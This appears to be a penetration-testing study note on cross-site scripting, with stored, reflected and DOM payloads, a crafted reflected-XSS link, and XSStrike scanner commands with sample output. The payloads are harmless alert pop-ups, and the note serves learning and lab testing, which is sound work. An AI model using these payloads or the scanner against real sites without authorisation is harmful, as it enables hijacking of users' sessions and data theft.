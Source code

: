 # Stored XSS 
## XSS Testing Payloads

```html
<script>alert(window.origin)</script>
```
## When XSS is stored, pressing ctrl + U will show us how the payload got embedded in source code.

```html
<div></div><ul class="list-unstyled" id="todo"><ul><script>alert(window.origin)</script>
</ul></ul>
```
# Reflected XSS
## Same payload but won't persist in the source code. So we send malicious link to user to attack. (Sent to server and we get a response)

```html
http://SERVER_IP:PORT/index.php?task=<script>alert(window.origin)</script>
```
## DOM XSS
## These payloads are executed on the client side and are not sent to the server.

## Payloads

```html
<img src=x onerror=alert(1)>
<svg onload=confirm(document.domain)>
```
# Automation (Doesnt work for Blind XSS)
## Tools -> https://github.com/s0md3v/XSStrike , https://github.com/rajeshmajumdar/BruteXSS, https://github.com/epsylon/xsser
## Example XSStrike

```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
```

```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 

        XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: task 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N]
```
# Manual Detection
## Popular Payload Lists - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md, https://github.com/payloadbox/xss-payload-list 

# Tags
> #Exploitation #Web-Exploitation #XSS #Recon #Information-gathering 